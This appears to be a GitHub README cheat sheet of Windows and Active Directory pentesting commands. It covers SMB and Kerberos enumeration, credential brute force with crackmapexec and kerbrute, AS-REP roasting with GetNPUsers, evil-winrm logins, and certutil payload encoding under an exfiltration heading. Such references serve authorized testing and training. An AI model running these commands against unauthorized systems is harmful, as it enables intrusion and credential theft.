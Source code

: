 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/22857002/173634314-01b1c385-b279-429b-9144-6ad43cff2d4c.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172732896-97a2e867-7e5a-473d-afd4-c00a0378b7ac.svg#gh-light-mode-only">
</picture>

---

- [DMP File](#dmp-file)
- [Exfiltration](#exfiltration)
- [Kerberos](#kerberos)
- [MSRPC](#msrpc)
- [Ldap](#ldap)
- [Samba](#samba)
- [Virus](#virus)
- [WinRM](#winrm)

# Enumeration
## Scripts
### Winpeas
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -O
```

# Samba
*Port: 445*

### List Directories
```bash
smbclient  --no-pass -L //ip//
smbclient -U user -L //ip//
```

### Connect
```bash
smbclient "\\\\DOMAIN\\SHARENAME" --no-pass
smbclient  "\\\\DOMAIN\\SHARENAME" -u USER -p PASSWORD
```

### SmbMap
```bash
smbmap -H ip -u anonymous
smbmap -u user -p pass -H ip
```

### Bruteforce
```bash
crackmapexec smb ip -u users.txt -p password.txt
```

# MSRPC
*Port: 135*

### Connect
```bash
rpcclient ip -U user -L -h
```

### Source
- [Different Outils](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

# WinRM
*Port: 5985*

### Connect
```bash
evil-winrm -i ip -u user -p password
```

# DMP File
### Extract
```bash
Foremost file.dmp
```

# Kerberos
*Port: 88*

Kerberos is an authentication protocol that is used to verify the identity of a user or host.

### Bruteforce User
```bash
kerbrute userenum -d domain --dc ip user.txt
```

### Get user ticket
Checking if Kerberos pre-authentication has been disabled for accounts
```
GetNPUsers.py -usersfile user.txt -no-pass -format hashcat -dc-ip ip domain
```

- [Kerberos cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

# Ldap
*Port: 389, 636*

### Nmap
```
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
```

# Exfiltration
### Certificate
```cmd
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

### Download file
```powershell
Invoke-WebRequest -Uri http://example.com -OutFile file.out
```

# Virus
### Cobalt Strike
- [Cobalt Strike: Using Known Private Keys To Decrypt Traffic – Part 1](https://blog.nviso.eu/2021/10/21/cobalt-strike-using-known-private-keys-to-decrypt-traffic-part-1/)
- [Cobalt Strike: Using Known Private Keys To Decrypt Traffic – Part 2](https://blog.nviso.eu/2021/10/27/cobalt-strike-using-known-private-keys-to-decrypt-traffic-part-2/)
- [Cobalt Strike: Using Process Memory To Decrypt Traffic – Part 3](https://blog.nviso.eu/2021/11/03/cobalt-strike-using-process-memory-to-decrypt-traffic-part-3/)
